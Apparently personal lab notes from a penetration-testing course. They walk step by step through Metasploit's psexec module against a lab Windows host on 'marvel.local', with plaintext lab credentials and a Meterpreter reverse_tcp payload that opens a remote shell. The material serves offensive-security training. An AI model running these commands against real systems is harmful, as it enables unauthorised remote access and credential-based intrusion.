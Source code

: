 1. **Start MSF Console**:
    
    ```Shell
    msfconsole
    ```
    
    ![[/image 23 3.png|image 23 3.png]]
    
2. **Search and Use Exploit**:
    - Search for `psexec` or `smb` related exploits:
        
        ```Shell
        search psexec
        ```
        
        ![[/image 24 3.png|image 24 3.png]]
        
    - Select exploit:
        
        ```Shell
        use exploit/windows/smb/psexec
        ```
        
        ![[/image 25 3.png|image 25 3.png]]
        
3. **Set Options**:
    
    ```Shell
    set RHOSTS 192.168.213.130
    set SMBUser fcastle
    set SMBPass Password@01
    set SMBDomain marvel.local
    ```
    
    ![[/image 26 3.png|image 26 3.png]]
    
4. **Set Payload**:
    
    ```Shell
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST eth0
    ```
    
    ![[/image 27 3.png|image 27 3.png]]
    
5. **Run Exploit**:
    
    ```Shell
    exploit
    ```
    

### **Troubleshooting Authentication Issues**

- If the initial attempt fails, try different payloads or targets.
    - Example: Setting a different target type.
        